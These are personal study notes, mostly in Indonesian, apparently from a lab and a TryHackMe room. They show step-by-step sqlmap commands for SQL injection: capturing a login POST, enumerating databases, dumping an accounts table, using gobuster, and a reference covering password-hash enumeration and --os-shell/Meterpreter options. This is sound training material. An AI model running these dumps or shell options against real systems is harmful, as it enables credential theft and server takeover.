1. mencari urlnya dan data saat di post
    - masukan user, pass pada website
    - inspek element, ke network, nyalakan preverse log
    - lalu submit nantinya
    - dan cek di network (index.php) lalu payload
    - dan liat formdata dan view parse copy untuk nantinya mencari database

2. mencari nama databse
    - sqlmap -u http://192.168.1.1/index.php?page=login.php --data="username=123&password=test" --dbsms=mysql --current-db --method=post
        - -u => unutk url
        - --data => untuk data body/payload
        - --dbsms=mysql => database yang digunakan (opsional)
        - --current-db => mencari database
        - --method=post => method yang akan digunakan untuk mencari database
    - nowasp

3. mencari tables
    - sqlmap -u http://192.168.1.1/index.php?page=login.php --data="username=123&password=test" --dbsms=mysql --D nowasp --tables --method=post
        - -D => nama databse yang akan dicari (seblumnya kita menemukan namanya noswap)
        - --tables => mencari tables
    - account, data, dll

4. dumping tables
    - sqlmap -u http://192.168.1.1/index.php?page=login.php --data="username=123&password=test" --dbsms=mysql --D nowasp -T accounts --method=post --dump
        - T => nama table
        - --dump => dumping

## try hack me
- -u => url
- data => String data yang akan dikirim melalui POST (misalnya "id=1")
- --random-agent => Gunakan nilai header HTTP User-Agent yang dipilih secara acak
- -p testparameter => Parameter yang dapat diuji
- --level=LLEVEL => Tingkat pengujian yang harus dilakukan (1-5, default 1)
- --risk=RISK => Risiko tes yang harus dilakukan (1-3, default 1)

```
- a => all
- b => banner Retrieve DBMS banner
- --current-user
Retrieve DBMS current user
--current-db
Retrieve DBMS current database
--passwords
Enumerate DBMS users password hashes
--dbs             
Enumerate DBMS databases
--tables
Enumerate DBMS database tables
--columns
Enumerate DBMS database table columns
--schema
Enumerate DBMS schema
--dump
Dump DBMS database table entries
--dump-all
Dump all DBMS databases tables entries
--is-dba           
 Detect if the DBMS current user is DBA
-D <DB NAME>
DBMS database to enumerate
-T <TABLE NAME>
DBMS database table(s) to enumerate
-C COL
DBMS database table column(s) to enumerate
```

```
Operating System access commands
These options can be used to access the back-end database management system on the target operating system.
Options
Description
--os-shell	Prompt for an interactive operating system shell
--os-pwn	Prompt for an OOB shell, Meterpreter or VNC
--os-cmd=OSCMD
Execute an operating system command
--priv-esc
Database process user privilege escalation
--os-smbrelay
One-click prompt for an OOB shell, Meterpreter or VNC
```

## task 2
```
Simple HTTP GET Based Test
sqlmap -u https://testsite.com/page.php?id=7 --dbs
```

```
sqlmap -r req.txt -p blood_group --dbs
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
```

```
Using GET based Method
sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables

Using POST based Method
sqlmap -r req.txt -p blood_group -D blood --tables
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
```

# task 3
```
gobuster dir -u http://10.10.123.19/ -w directory-1.3.1-small.txt -t 30
go to 10.10.123.19/blood
and click search and copy rthe page search with burpsuite

sqlmap -r request.txt --current-db => outputnya nanti adalah 
sqlmap -r request.txt --current-user => outputnya nanti adalah user rool@localhost
sqlmap -r request.txt --tables
sqlmap -r request.txt -D blood --tables
sqlmap -r request.txt -D blood -T users --columns
sqlmap -r request.txt -D blood -T flag --columns
sqlmap -r request.txt -D blood -T flag --dump => akan menghasilkan baris data flag
```